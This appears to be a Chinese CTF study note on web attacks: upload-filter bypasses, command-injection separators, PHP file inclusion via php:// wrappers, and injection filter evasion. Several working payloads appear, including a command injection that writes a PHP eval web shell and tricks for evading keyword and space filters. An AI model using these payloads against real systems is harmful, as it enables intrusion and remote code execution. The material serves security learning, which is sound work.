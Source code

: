 ### MIME绕过
在HTTP中MIME类型被定义header的Content-Type中。此处便是我们进行绕过检测成功上传的核心
![20220526211253](https://s2.loli.net/2022/05/26/zGmMR3epWCtEVvP.png)

### 文件头检测
随便找张png,上传抓包,只保留文件头几行的内容，后面的全删掉(太多内容蚁剑就连不上了)，然后在最后一行加上php代码，再改下文件后缀名

### .user.ini
局限：只有当前目录有php文件被执行时才会加载当前目录的.user.ini

## 9.Rce(远程命令执行)
![20220526213738](https://s2.loli.net/2022/05/26/37lK5pmUBWJQtYn.png)
windows:%0a、&、|(忽略前一个)、&&、||(忽略后一个)、%1a(一个神奇的角色,作为.bat文件中的命令分隔符)
linux中:; 、& 、| 、&&、|| 、%0a、%0d经测试这里可以使用%0a(注意不能直接在框里输入，而是url或者抓包)
windows转义字符为'^',Linux转义字符为'\'
windows注释为::，Linux注释为#
linux的%0a到了windows要转成%0d%0a(回车)

管道符号，符号为|一条竖线，command 1 | command 2 他的功能是把第一个命令command 1执行的结果作为command 2的输入传给command 2。而且命令 2 只能处理命令 1 的正确输出，而不能处理错误输出。
### 文件包含
可以包含含有php代码的txt文件等，php代码会在传参后的页面执行
php伪协议：php://
![20220526220509](https://s2.loli.net/2022/05/26/1DCsFxBzcRywWNl.png)
![20220526220459](https://s2.loli.net/2022/05/26/OXId4RwEkCLmZQH.png)
此时php://input相当于一个文件
![20220526221614](https://s2.loli.net/2022/05/26/gEkHI8zTbp3siyF.png)
allow_url_fopen = On 是否允许打开远程文件 allow_url_include = On 是否允许include/require远程文件
![20220526223720](https://s2.loli.net/2022/05/26/6mQaqkMAHFl4XEC.png)
php://filter/read=convert.base64-encode/resource=/flag

### 命令注入
直接cat 7672134566268.php
发现无回显
一般遇见这种情况 咱们首先考虑两种方法 第一种，直接查看源代码
果不其然 直接在源代码中找到了
![20220527003437](https://s2.loli.net/2022/05/27/NlV1oTM9pcgRfKj.png)
第二种方法是将文件内容base64编码出来
127.0.0.1&cat 7672134566268.php| base64
第三种方法是写shell(echo >输出重定向把echo的参数输出到某个文件)
```bash
127.0.0.1&echo -e "<?php @eval(\$_POST['test']);?>" > 555.php
#$前必须有转义符，否则双引号里的$会被认为是sh脚本的变量
```
### 绕过cat等关键字
```bash
127.0.0.1&a=c;b=at;$a$b flagxxxx.php
ca''t
c\at
c$*at
或者用其他命令：head、tail等
```
### 过滤空格
如果空格也过滤掉，我们同样可以通过burp来fuzz可以用的字符。
< 、<>、%20(space)、%09(tab)、\$IFS\$9、 \${IFS}、${IFS}等
